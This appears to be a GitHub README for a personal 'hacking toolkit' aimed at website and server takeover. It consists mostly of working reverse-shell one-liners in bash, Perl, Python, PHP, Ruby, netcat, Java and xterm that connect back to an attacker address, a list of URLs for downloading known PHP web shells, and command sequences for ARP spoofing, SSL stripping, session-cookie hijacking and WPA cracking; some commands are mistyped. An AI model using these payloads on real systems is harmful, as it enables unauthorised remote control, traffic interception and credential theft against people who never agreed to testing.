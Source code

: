 # MyHackingToolkit

A set of shells to expedite website/server takeover, I will build this repo for my own use, if you believe you can use it and want to enhance, please create a pull-request or suggest enhancements to current scripts

## Reverse Shell

- [PentestMonkey.net](http://pentestmonkey.net/)

### Bash

Some versions of bash [can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an alternative PERL revere shell [here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```xterm
Xnest :1
```

You’ll need to authorise the target to connect to you (command also run on your host):

[Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)

## PHP

- a small script with wget command for file uploaders with different extensions .jpg.php .jpg;.php .phtml .php3 .php4 .php5
- a small script to download from github repo the main shells required for takeover testing
- symlinking scripts
- mysql pure shell
- vbulletin plugin or style
- wordpress theme
- wordpress plugin
- backconnect

```json
[
'http://www.c99shellphp.com/shell/angel.txt',
'http://www.c99shellphp.com/shell/r57.txt',
'http://www.c99shellphp.com/shell/c100.txt',
'http://www.c99shellphp.com/shell/kacak.txt',
'http://www.c99shellphp.com/shell/symlink.txt',
'http://www.c99shellphp.com/shell/h4cker.tr.txt',
'http://www.c99shellphp.com/shell/bv7binary.txt',
'http://www.c99shellphp.com/shell/webadmin.txt',
'http://www.c99shellphp.com/shell/gazashell.txt',
'http://www.c99shellphp.com/shell/locus7shell.txt',
'http://www.c99shellphp.com/shell/ernebypass.txt',
'http://www.c99shellphp.com/shell/g6shell.txt',
'http://www.c99shellphp.com/shell/uploadshell_hima.txt',
'http://www.c99shellphp.com/shell/wsoshell.txt',
'http://www.c99shellphp.com/shell/commandshell.txt'
]
```

## Perl

- cgi script
- cgi backconnect

# python shell

## .htaccess CheatSheet

# Hack with Hamster & Ferret

```bash
wget http://www.erratasec.com/erratasec.zip
unzip erratasec.zip
cp -R ferret/ /pentest/exploits/ && cp -R hamster/ /pentest/exploits/
cd /pentest/exploits/hamster/build/gcc4/ && make
cd /pentest/exploits/ferret/build/gcc4/ && make
cp /pentest/exploits/ferret/bin/ferret /pentest/exploits/hamster/bin
cd /pentest/exploits/hamster/bin/ && ./hamster
# Start Firefox
# Edit -> Preferences
# Advanced Tab -> Network Tab
# Click on Settings
# Select Manual proxy configuration
# Set the HTTP Proxy: 127.0.0.1 on Port: 1234
# Tick Use this proxy server for all protocols and click ok
```

```bash
ttercap -T -Q -M arp:remote -i wlan0 /victim IP/ /gateway_IP/ -P remote_browser
echo "1" > /proc/sys/net/ipv4/ip_forward

# the -T starts it in text mode.
# the  -Q will make ettercap be superQuiet (not print raw packets in the terminal window)
# the  -M starts man in the middle mode, and the arp:remote is the type of poisoning, and remote is a parameter for MITM.  these commands can be # combined into one switch like -TQM  but for clarity i put them separately.
# NOTE: the victim IP must be in the same subnet as your PC.

# p
# then
# gw_discover
# to give you the gateway in ettercap

# to scan IPs on the network
nmap -sP 10.10.10.*

arpspoof -i wlan0 -t target_IP GATEWAY_IP

sniff ssl

configure /etc/etter.conf
privs 0 0

redir_command_on/off
under linux
redir_command_on un commented with off
ip_forward 1

arpspoof -i wlan0 -t target_IP GATEWAY_IP
# If you want to poison multiple targets just leave the “-t” out of the arpspoof command  and leave the gateway

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
urlsnarf -i wlan0|cut -d\" -f4

sslstrip -a -k -f
ettercap -T -q -i wlan0

reset iptables
iptables –flush/ iptables -F

./ferret -i eth0  
./hamster  

echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.104 192.168.1.1

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
sslstrip -p -k -f

/pentest/sniffers/hamster/ferret -i eth0

/pentest/sniffers/hamster/hamster

# Konqueror -> Settings -> Configure Konqueror -> Proxy -> Manually. 127.0.0.1:1234
# Konqueror -> http://hamster

# root@bt:/pentest/web/sslstrip# python sslstrip -a -k


# WPA without dictionary
# / pentest / passwords / crunch /. / crunch 9 9 | aircrack-ng -b (BSSID) -w - / root/.gerix-wifi-cracker/sniff_dump- *. cap
# / pentest / passwords / crunch /. / Crunch 9 9 KIULO56UH | aircrack-ng-b (BSSID)-w - / root/.gerix-wifi-cracker/sniff_dump- *. cap
```
